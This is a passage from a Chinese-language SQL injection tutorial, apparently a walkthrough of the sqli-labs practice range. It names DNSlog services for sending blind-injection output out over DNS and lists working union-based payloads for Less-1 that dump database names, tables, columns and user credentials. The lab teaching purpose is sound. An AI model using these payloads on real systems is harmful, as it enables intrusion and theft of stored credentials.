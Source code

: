 http://admin.dnslog.link

http://ceye.io

有些注入查询不会回显，于是将注入查询的数据，以DNS协议封装出站来显示。



## 靶场-sqli-labs

搭建：https://blog.csdn.net/Joker_Dgh/article/details/123913722

### sqli-labs WP

此靶场时mysql，也是市面上用的广的一款数据库，其他数据库包括mssql,oracle/mongodb,PostgreSql等语句都大同小异，可以进行百度搜索注入的语句。

将mysql的理解好了，其他的数据库注入也能触类旁通。

前置知识：

mysql中，有一个特殊的数据库**information_schema**.

它存储了该数据库下，所有的数据库名，表名，列名。

**information_schema.schemata：记录数据库名的表**

**information_schema.tables：记录表名的表**

**information_schema.columns：记录列名的表**

**table_schema：数据库名称**

**table_name：表名**

**column_name：列名**

### Less-1

Get型注入 用单引号判断存在注入，且报错有回显。**查询结果也会回显则用联合注入**。当然有报错回显可以用报错注入。

```
#下面两步找列数
/Less-1/?id=1' order by 3--+
/Less-1/?id=1' order by 4--+
#确定哪个字段有回显
/Less-1/?id=-1' union select 1,2,3--+ 
#确定当前数据库
/Less-1/?id=-1' union select 1,2,database()--+
#爆出当前数据库内的所有表名
/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
#爆出当前数据库user表的所有列名
/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()--+
#爆出当前数据库user表所有username和password
/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users--+
```

-1'union 或者 1’ and 1=2
